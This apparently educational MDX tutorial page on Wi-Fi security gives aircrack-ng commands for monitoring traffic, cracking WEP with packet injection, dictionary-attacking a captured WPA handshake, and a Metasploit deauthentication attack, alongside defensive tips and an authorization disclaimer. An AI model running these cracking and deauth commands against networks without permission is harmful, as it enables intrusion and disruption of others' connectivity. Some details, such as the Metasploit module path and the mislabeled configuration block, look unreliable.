

import InfoBox from '@/components/mdx/InfoBox.astro'

## Introduction to Wi-Fi Security

In this article, we'll explore common methods used to audit and secure Wi-Fi networks. The tools and techniques described below should only be used in controlled environments, such as for penetration testing of networks you own or have explicit permission to test.

<InfoBox type="warning">
  **Disclaimer**: Unauthorized access to networks is illegal. This content is provided for educational purposes only.
</InfoBox>

---

## Example 1: Monitoring Traffic with `airodump-ng`

One of the most common tools for capturing Wi-Fi traffic is **aircrack-ng**. Below is an example of using `airodump-ng` to monitor Wi-Fi networks in your area.

```bash
# Start monitoring mode on your wireless interface
sudo airmon-ng start wlan0

# Capture traffic on all nearby networks
sudo airodump-ng wlan0mon
````

Example 2: Cracking WEP Encryption
WEP is an outdated Wi-Fi encryption protocol and should not be used. Here's an example of how it can be cracked:

```bash
# Target a specific network and capture traffic
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 6 -w capture wlan0mon

# Inject packets to speed up the process
sudo aireplay-ng --arpreplay -b 00:11:22:33:44:55 wlan0mon

# Use aircrack-ng to crack the WEP key
sudo aircrack-ng capture-01.cap
```
Output:
```bash
Aircrack-ng 1.6

[00:11:22:33:44:55] WEP key found: 1234567890
```
Example 3: WPA/WPA2 PSK Attack
To test the security of WPA/WPA2 networks, you can use dictionary attacks. This example uses aircrack-ng to brute-force the handshake:
```bash
# Capture WPA/WPA2 handshake
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 6 -w handshake wlan0mon

# Use aircrack-ng to perform a dictionary attack
sudo aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 handshake-01.cap
```
Output:
```bash
[00:11:22:33:44:55] WPA Key found: supersecurepassword

```

Example 4: Defending Your Wi-Fi Network
Here are some tips to secure your Wi-Fi:

Use WPA3: Upgrade your router to use WPA3 encryption, if supported.
Disable WPS: Wi-Fi Protected Setup (WPS) is a common attack vector.
Use a Strong Password: Avoid simple passwords and use a random generator.
Hide Your SSID: While not foolproof, hiding your SSID can reduce the chance of casual attackers finding your network.
Example of Strong WPA3 Configuration:
```bash
Router Name: MySecureWiFi
SSID: Hidden
Encryption: WPA3-PSK
Password: Y!X$3k#12R!t@X%3

```

Advanced Wi-Fi Auditing Tools
<figure> <div class="max-w-72 mx-auto [&_img]:mb-0">  </div> <figcaption class="text-center">Metasploit Wi-Fi Exploitation Example</figcaption> </figure>
Example: Using metasploit for Wi-Fi Penetration Testing

```bash
# Launch Metasploit console
sudo msfconsole

# Search for Wi-Fi modules
search wifi

# Use a specific module
use auxiliary/wifi/dos/deauth

# Set required options
set INTERFACE wlan0
set BSSID 00:11:22:33:44:55

# Execute the attack
run
```
ASCII Art for Inspiration
```bash
   /$$      /$$ /$$      /$$ /$$$$$$  /$$$$$$$$ /$$$$$$$
  | $$$    /$$$| $$$    /$$$|_  $$_/ |__  $$__/| $$__  $$
  | $$$$  /$$$$| $$$$  /$$$$  | $$      | $$   | $$  \ $$
  | $$ $$/$$ $$| $$ $$/$$ $$  | $$      | $$   | $$$$$$$/
  | $$  $$$| $$| $$  $$$| $$  | $$      | $$   | $$__  $$
  | $$\  $ | $$| $$\  $ | $$  | $$      | $$   | $$  \ $$
  | $$ \/  | $$| $$ \/  | $$ /$$$$$$    | $$   | $$  | $$
  |__/     |__/|__/     |__/|______/    |__/   |__/  |__/
```
